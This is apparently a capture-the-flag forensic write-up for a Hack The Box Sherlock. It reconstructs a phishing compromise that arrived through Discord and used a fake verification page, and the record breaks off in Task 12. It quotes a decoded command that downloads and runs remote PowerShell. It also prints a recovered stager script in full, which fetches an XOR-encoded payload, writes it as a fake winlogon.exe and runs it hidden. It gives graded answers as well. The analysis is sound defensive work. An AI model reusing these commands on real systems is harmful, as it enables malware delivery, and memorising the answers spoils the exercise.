# OPPORTUNIST


[Sherlock](https://app.hackthebox.com/sherlocks/Opportunist)

## Sherlock scenario

Klaus Weber, a DevOps engineer at TechFlow GmbH, reported suspicious activity on his workstation after interacting with what he believed was a legitimate job recruiter. The security team immediately isolated the system and captured a memory dump along with forensic artifacts. Analyze the evidence to determine the scope of compromise and reconstruct the attacker's actions.

## Provided artifacts

A C drive of the compromised machine, and also a memory dump.

## Task 1: Klaus became suspicious after speaking with a job recruiter after noticing suspicious activity on his system. When did the attacker first contact him?

I checked the memory dump first to see what processes were running at the dumping time, and I noticed `Discord.exe`, an application having messaging ability.

```
luongdung@lngdun:/mnt/e/htb/Sherlock/Opportunist/Opportunist/Opportunist_mem$ vol -f mem.vmem windows.pslist.PsList | grep Discord
3972ress710400.0Discord.exe     0xc50fa4ea5080  54      -       1       False   2025-11-29 06:49:41.000000 UTC  N/A     Disabled
3996    3972    Discord.exe     0xc50fa50d3080  7       -       1       False   2025-11-29 06:49:42.000000 UTC  N/A     Disabled
1160    3972    Discord.exe     0xc50fa505a080  15      -       1       False   2025-11-29 06:49:43.000000 UTC  N/A     Disabled
7184    3972    Discord.exe     0xc50fa4c88080  14      -       1       False   2025-11-29 06:49:43.000000 UTC  N/A     Disabled
7604    3972    Discord.exe     0xc50fa51f50c0  45      -       1       False   2025-11-29 06:49:44.000000 UTC  N/A     Disabled
7836    3972    Discord.exe     0xc50fa4c63080  7       -       1       False   2025-11-29 06:49:47.000000 UTC  N/A     Disabled
```

Also in `AppData/Roaming` directory, I noticed a Discord cached files's folder, so my analysis was that this Discord was used for contact between Klaus and the attacker. 

> Discord Desktop was build on Electron (a framework allows developers to build Desktop application using Web technologies like HTML, CSS, JS), using Chromium technology. This means data from Discord will be caches exactly like as Chrome.

Here I used ChromeCacheView, an application which was developed by `Nir Sofer` to extract binary files from this folder.

But there must be like thousand files here, so I looked up to a specific URL like `discordapp.com/api/v9/channels/...` since this contain messages from channels. And luckily there was only three entries.



Finding a while and I founded the first message.



**ANSWER: 2025-11-28 12:29:07**

## Task 2: The phishing site had a legitimate-looking title to blend in and appear trustworthy to the end user. What was the title of the phishing site's URL?

The URL site appeared in Discord chat.



I queried for `URLs` table in HISTORY database of Google Chrome and found its title.



**ANSWER: Discord - Verification Required**

## Task 3: The victim was tricked into executing a malicious command. What is the decoded command?

At first I checked in Powershell logs, but there was nothing. Since the title was `Verification Required`, I suggest this might be a ClickFix malware, so I checked in `RunMRU` registry (from NTUSER.DAT) and found a suspicious command.



Which decoded to



**ANSWER: IEX(New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/n6KFbBuZ')**

## Task 4: The initial payload downloaded a dropper onto the system. What is the full URL from which the dropper was downloaded?

Access to that pastebin URL and we found the answer.



**ANSWER: http://192.168.1.100/payloads/installer.exe**

## Task 5: The dropper placed a file on the system. What is the full path of the first file dropped?

Since we knew the dropper was `sysupdate.exe`, I checked for dropped files by this executable by `PECmd`.



**ANSWER: C:\Users\Klaus Weber\AppData\Local\Temp\SvcHost.exe**

## Task 6: A script was created on the endpoint via the initial dropper, which facilitated the staging and execution of another executable masquerading as a legitimate Windows process. When was this malicious file executed?

I parsed the `$MFT` file using `MFTECmd.exe` and viewed it by `Timeline Explorer`, I searched for suspicious file type such like `vbs`, `js`, `ps1` and found this malicious one located in `Roaming` folder.



Its size was only 975kB, at first I thought it was resident, but after checking it again in `MFTExplorer`, it is not. 



But it was not deleted (but not being provided as an artifact), so i guess we can still extract it from memdump.

```
luongdung@lngdun:/mnt/e/htb/Sherlock/Opportunist/Opportunist/Opportunist_mem$ vol -f mem.vmem windows.filescan.FileScan | grep 'updater.ps1'
0xc50fa720dd60.0\Users\Klaus Weber\AppData\Roaming\updater.ps1

luongdung@lngdun:/mnt/e/htb/Sherlock/Opportunist/Opportunist/Opportunist_mem$ vol -f mem.vmem windows.dumpfiles.DumpFiles --virtaddr 0xc50fa720dd60
Volatility 3 Framework 2.27.0
Progress:  100.00               PDB scanning finished
Cache   FileObject      FileName        Result

DataSectionObject       0xc50fa720dd60  updater.ps1     file.0xc50fa720dd60.0xc50fa41c54e0.DataSectionObject.updater.ps1.dat
```

Now we can check its script.

```
luongdung@lngdun:/mnt/e/htb/Sherlock/Opportunist/Opportunist/Opportunist_mem$ cat file.0xc50fa720dd60.0xc50fa41c54e0.DataSectionObject.updater.ps1.dat
# System Configuration Update Module
# Maintains system component integrity
$ErrorActionPreference = 'SilentlyContinue'
try {
    # Configuration endpoints
    $s1 = "http://192.168.1.100/payloads/payload.enc"
    $t1 = Join-Path $env:TEMP "sysdata.tmp"
    $t2 = Join-Path $env:APPDATA "winlogon.exe"

    # Retrieve system configuration
    (New-Object Net.WebClient).DownloadFile($s1, $t1)

    if (Test-Path $t1) {
        # Load configuration data
        $d1 = [System.IO.File]::ReadAllBytes($t1)

        # Process configuration format
        $d2 = New-Object byte[] $d1.Length
        for($x=0; $x -lt $d1.Length; $x++) {
            $d2[$x] = $d1[$x] -bxor 0x42
        }

        # Apply system configuration
        [System.IO.File]::WriteAllBytes($t2, $d2)

        # Initialize system service
        Start-Process -FilePath $t2 -WindowStyle Hidden

        # Cleanup temporary data
        Remove-Item $t1 -Force -ErrorAction SilentlyContinue
    }
} catch {}
```

This is exactly what the task ask for, a Powershell script executed to download another payload, XOR it with `0x42` to become a masquerading executable `winlogon.exe`.



Prefetch for the timestamp.

**ANSWER: 2025-11-29 07:17:40**

## Task 7: What was the total number of bytes exfiltrated over the network by the first dropped malicious file?

The first dropped file was a fake `svchost.exe` located in `Temp` directory. Here I used the `SRUM` artifacts to search for total exfiltrated bytes.

```
PS E:\htb\Sherlock\Opportunist\Opportunist\Opportunist_evidence\C\Windows\System32\SRU> ./SRumECmd.exe -f 'SRUDB.dat' --csv "./output"
SrumECmd version 1.0.0.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/Srum

Command line: -f SRUDB.dat --csv ./output

Warning: Administrator privileges not found!

Processing 'SRUDB.dat'...

Processing complete!

Energy Usage count:            0
AppTimelineProvider count:     2,409
vfuprov count:                 63
App Resource Usage count:      1,073
Network Connection count:      12
Network Usage count:           259
Push Notification count:       6

Path to './output' doesn't exist. Creating...
CSV output will be saved to './output'

Processing completed in 0.7212 seconds
```



**ANSWER: 297708**

## Task 8: The attacker established multiple persistence mechanisms on the system to maintain access. What is value name of the first persistence mechanism established?

Remember when I parse the Prefetch of `sysupdate`, it do mention about `SCHTASKS.EXE`. This refer to `C:\Windows\System32\Tasks` containing persistence.



This `SystemUpdate` will auto execute the `updater.ps1` payload whenever this machine boot-up, and it was also the first persistence dropped.

**ANSWER: SystemUpdate**

## Task 9: What is the value name of the second persistence mechanism that was established?

For this task, I checked in `NTUSER.DAT` registry, in `SOFTWARE/Microsoft/Windows/CurrentVersion/Run` contains information about applications that will auto-run after start-up.



**ANSWER: Realtek HD Audio Universal Service**

## Task 10: What is the SHA256 hash of the script the attacker used to decrypt the C2 payload?

It was the earlier `updater.exe` that we extracted.

But when using `dumpfiles` command, volatility will automatically add null bytes so that the file after dump will have at least 4096 bytes (4kB).

So I used these recipies in Cyberchef to remove null bytes and calculate its hash.



**ANSWER: 2d4124a46a7a6a9e9b1bf2d100b5ff98a63ee6e05b21dc1138a637788cf992a0**

## Task 11: What xor key did the attacker use to decrypt the C2 malware payload?

**Answer: 0x42**

## Task 12: What is the attackers C2 IP and port?

### First appoach

This was also what I have done to get the answer, but there are 3 ways actually, and I did the hardest one lol.

I extracted the `winlogon.exe` from the memory dump.

```
luongdung@lngdun:/mnt/e/htb/Sherlock/Opportunist/Opportunist/Opportunist_mem$ vol -f mem.vmem windows.filescan.FileScan | grep 'winlogon.exe'
0xc50fa2ad6ee0.0\Windows\System32\winlogon.exe
0xc50fa4c0e210  \Users\Klaus Weber\AppData\Roaming\winlogon.exe
0xc50fa4c0e850  \Users\Klaus Weber\AppData\Roaming\winlogon.exe
0xc50fa54b4af0  \Windows\System32\en-US\winlogon.exe.mui
luongdung@lngdun:/mnt/e/htb/Sherlock/Opportunist/Opportunist/Opportunist_mem$ vol -f mem.vmem windows.dumpfiles.DumpFiles --virtaddr 0xc50fa4c0e210
Volatility 3 Framework 2.27.0
Progress:  100.00               PDB scanning finished
Cache   FileObject      FileName        Result

